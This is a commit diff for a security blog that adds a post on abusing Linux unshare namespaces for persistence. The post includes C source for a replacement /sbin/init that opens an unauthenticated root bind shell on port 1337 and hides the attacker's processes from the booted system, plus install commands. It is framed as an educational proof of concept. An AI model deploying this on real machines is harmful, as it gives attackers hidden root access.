

Before and after one commit to breachlabs-io/breachlabs-io.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; after the commit the page ends 900 px from its top, so only the background shows below that; some of the changed lines change nothing that is shown.

Commit message:
Wrote first blog post

````diff
--- a/_includes/footer.html
+++ b/_includes/footer.html
@@ -1,6 +1,9 @@
 <footer>
   <a href="https://twitter.com/breachlabs_io">
     <span>Twitter</span>
+  </a>
+  <a href="https://www.youtube.com/channel/UC0YMYhA08gMhcydYLoCL8kw">
+    <span>YouTube</span>
   </a>
   <a href="https://github.com/breachlabs-io">
     <span>GitHub</span>
--- a/_posts/2017-12-10-Another-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: Another Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- a/_posts/2017-12-11-One-More-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: One More Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- a/_posts/2017-12-12-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- a/_posts/2018-01-06-Yet-Another-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: Yet Another Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- /dev/null
+++ b/_posts/2020-09-11-Unshare-Persistence-Technique.md
@@ -0,0 +1,200 @@
+---
+title: Unshare Linux Persistence Technique
+published: true
+---
+
+You may have heard of the term "containers" when dealing with a tool like Docker, but containerization is actually a feature of the Linux kernel. Docker just utilizes this feature to provide it's functionality. A large portion of this functionality is part of the `unshare` function. Lets take a look at the man page for a description of this function:
+
+```
+unshare() allows a process (or thread) to disassociate parts of its execution
+context that are currently being shared  with  other  processes (or  threads)
+```
+
+Further down in the man page we can see what can be disassociated:
+
+```
+CLONE_FILES
+       Unshare the file descriptor table, so that the calling process no longer
+       shares its file descriptors with any other process.
+
+CLONE_FS
+       Unshare filesystem attributes, so that the calling process no longer
+       shares its root directory (chroot(2)), current directory (chdir(2)), or
+       umask (umask(2)) attributes with any other process.
+
+CLONE_NEWCGROUP (since Linux 4.6)
+       Unshare the cgroup namespace.
+
+CLONE_NEWIPC (since Linux 2.6.19)
+       Unshare the IPC namespace, so that the calling process has a private copy
+       of the IPC namespace which is not shared with any other process.
+
+CLONE_NEWNET (since Linux 2.6.24)
+       Unshare the network namespace, so that the calling process is moved into
+       a new network namespace which is not shared with any previously existing
+       process.
+
+CLONE_NEWNS
+       Unshare the mount namespace, so that the calling process has a private
+       copy of its namespace which is not shared with any other process.
+
+CLONE_NEWPID (since Linux 3.8)
+       Unshare the PID namespace, so that the calling process has a new PID
+       namespace for its children which is not shared with any previously
+       existing process. The calling process is not moved into the new
+       namespace. The first child created by the calling process will have the
+       process ID 1 and will assume the role of init(1) in the new namespace.
+
+CLONE_NEWUSER (since Linux 3.8)
+       Unshare the user namespace, so that the calling process is moved into a
+       new user namespace which is not shared with any previously existing
+       process.
+
+CLONE_NEWUTS (since Linux 2.6.19)
+       Unshare the UTS IPC namespace, so that the calling process has a private
+       copy of the UTS namespace which is not shared with any other process.
+
+CLONE_SYSVSEM (since Linux 2.6.26)
+       Unshare System V semaphore adjustment (semadj) values, so that the
+       calling process has a new empty semadj list that is not shared with any
+       other process.
+```
+
+There are a ton of things we can do here. We can use `CLONE_NEWNS` to make a completely new copy **private** copy of the mount namespace. Meaning anything mounted in this process will not be visible from any other processes. `CLONE_NEWPID` allows us to get a brand new PID table. This is why if you look at the process list inside of a Docker container you will only see the processes inside of that container.
+
+### Simple Is Better
+
+So the above information is cool, but lets take a look at an easy way to test some of this stuff out. Conveniently, Linux provides us with an `unshare` binary that wraps up this functionality and makes it easier to use. Here is a simple example where the PID namespace is unshared: `~# sudo unshare -pf --mount-proc /bin/bash`. After executing this command, run `ps aux` and you will only see 2 processes instead of the entire list. The flags in this command are `-p unshare PID namespace`, `-f fork`, and `--mount-proc remount the proc file system`. The `/proc` directory needs to be remounted as the old mount will still have the original pids.
+
+### What About This Persistence Thing?
+
+We've figured out how this containerization thing works a bit, but how can we use it as a persistence mechanism? One thing to keep in mind is that once something is unshared from a container, it can't view the outside namespace. It can only see its own private namespace. From a persistence perspective, if we were to run malware outside of the container then it wouldn't be visible inside of the container if the PID namespace was unshared. Sounds cool right?
+
+Now lets consider that we could containerize the entire operating system on boot, but leave a process running on the outside of the container that we, as the attacker, can access via a bind shell. When the attacker enters the bind shell, they would be outside of the container, and anything they run would be hidden from the container.
+
+In order to containerize the entire operating system, we need to understand what happens on boot. If you run `ps aux` and look at the first process, you will usually see something like `/sbin/init` for PID 1. `/sbin/init` is the first program run after the operating system is loaded. `/sbin/init` is actually a symbolic link to `/lib/systemd/systemd`, so that is the real application that is started first. If we replace `/sbin/init` with our own binary we can have `/lib/systemd/systemd` start in a containerized environment. `/lib/systemd/systemd` will kick off all the other processes needed for a functional operating system.
+
+### Custom /sbin/init
+
+```c
+#define _GNU_SOURCE
+
+#include <sched.h>
+#include <unistd.h>
+#include <stdlib.h>
+#include <stdio.h>
+#include <sys/types.h>
+#include <sys/wait.h>
+#include <sys/mount.h>
+#include <sys/socket.h>
+#include <netinet/in.h>
+
+void setup_listener(void) {
+    int serv_sockfd, client_sockfd;
+    struct sockaddr_in servaddr;
+    pid_t pid;
+
+    if ((serv_sockfd = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
+        perror("socket");
+        exit(EXIT_FAILURE);
+    }
+
+    servaddr.sin_family = AF_INET;
+    servaddr.sin_port = htons(1337);
+    servaddr.sin_addr.s_addr = htonl(INADDR_ANY);
+
+    if (bind(serv_sockfd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == -1) {
+        perror("bind");
+        close(serv_sockfd);
+        exit(EXIT_FAILURE);
+    }
+
+    if (listen(serv_sockfd, 10) == -1) {
+        perror("listen");
+        close(serv_sockfd);
+        exit(EXIT_FAILURE);
+    }
+
+    while (1) {
+        if ((client_sockfd = accept(serv_sockfd, NULL, NULL)) == -1) {
+            perror("accept");
+            close(serv_sockfd);
+            exit(EXIT_FAILURE);
+        }
+
+        pid = fork();
+        if (pid == -1) {
+            perror("fork");
+            close(serv_sockfd);
+            exit(EXIT_FAILURE);
+        } else if (pid == 0) {
+            dup2(client_sockfd, 0);
+            dup2(client_sockfd, 1);
+            dup2(client_sockfd, 2);
+
+            execve("/bin/bash", NULL, NULL);
+        }
+    }
+    close(serv_sockfd);
+}
+
+void setup_ns(void) {
+    int flags, wstatus;
+    char *new_argv[] = { "splash", NULL };
+    pid_t pid;
+
+    flags = CLONE_FILES | CLONE_NEWNS | CLONE_NEWIPC | CLONE_NEWPID | CLONE_NEWUTS;
+
+    if (unshare(flags) == -1) {
+        perror("unshare");
+        exit(EXIT_FAILURE);
+    }
+
+    pid = fork();
+    if (pid == -1) {
+        perror("fork");
+        exit(EXIT_FAILURE);
+    } else if (pid == 0) {
+        if (mount("none", "/proc", NULL, MS_PRIVATE | MS_REC, NULL) == -1) {
+            perror("mount");
+            exit(EXIT_FAILURE);
+        }
+        if (mount("proc", "/proc", "proc", MS_NOSUID | MS_NOEXEC | MS_NODEV, NULL) == -1) {
+            perror("mount");
+            exit(EXIT_FAILURE);
+        }
+        execve("/lib/systemd/systemd", new_argv, NULL);
+    } else {
+        waitpid(pid, &wstatus, 0);
+    }
+}
+
+
+int main(int argc, char *argv[]) {
+    pid_t pid;
+
+    pid = fork();
+    if (pid == -1) {
+        perror("fork");
+        exit(EXIT_FAILURE);
+    } else if (pid == 0) {
+        setup_listener();
+    } else {
+        setup_ns();
+    }
+
+    exit(EXIT_SUCCESS);
+}
+```
+
+The gist of this code is that it first sets up the bind shell on port 1337, then calls `setup_ns()` to unshare the specified namespaces, then it remounts `/proc` and executes `/lib/systemd/systemd splash` in the newly created container.
+
+### Testing
+
+The code above was tested on Kali 2020. You should use a virtual machine and take a snapshot of it in a clean state. I am not responsible if you brick your machine. Okay disclaimer aside, now compile with `gcc -o init <filename>.c`, then `sudo mv init /sbin/init && sudo chown root.root /sbin/init`. Reboot the machine.
+
+The machine should boot up normally, login as you normally would. Take a look around, everything should look completely normal. Believe it or not, you're actually inside of a container like environment. Lets get to the environment outside of the container. Run `nc localhost 1337`. This will give you a non-interactive shell. If you run `ps`, you should see some output. Experiment time!!! Open another terminal (or tab), and run `nc localhost 1337` again. You'll now have 2 terminal sessions outside of the container. In the first terminal session run `yes test`. This will continuously print out "test" on the screen (we just need this to keep a process running). In the second terminal session, run `ps aux | grep yes`. You should see the process for `yes test` running. Now open another terminal, and remember that this terminal session is inside the container (since we're not netcating out). In that terminal session run `ps aux | grep yes`. You will **not** see the process as we are in a container. This means any malware running outside the container is hidden from the full operating system running inside.
+
+### Conclusion
+
+This is a pretty invasive persistence technique, and I wouldn't recommend using it. It is something that is unique and interesting, but that is about it. The source code provided is a PoC and shouldn't be considered a fully working example. You will figure this out when you try to reboot the machine and it hangs! Hope you enjoyed this article and learned something about Linux containerization.
````
